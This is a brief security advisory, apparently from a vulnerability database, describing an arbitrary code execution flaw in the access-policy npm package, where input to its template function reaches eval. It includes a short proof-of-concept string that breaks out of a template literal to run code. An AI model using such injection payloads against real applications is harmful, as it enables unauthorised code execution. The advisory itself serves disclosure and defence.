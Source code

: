 ## Description

access-policy is a package that encodes and decodes policy JSON files for use with web applications.
Affected versions of this package are vulnerable to Arbitrary Code Execution. User input provided to the <kbd>template</kbd> function is executed by the <kbd>eval</kbd> function resulting in code execution.

## POC

```
var a = require("access-policy");
var statements = '`;console.log(123);//';
data = {};

a.encode(statements,data)
```
 
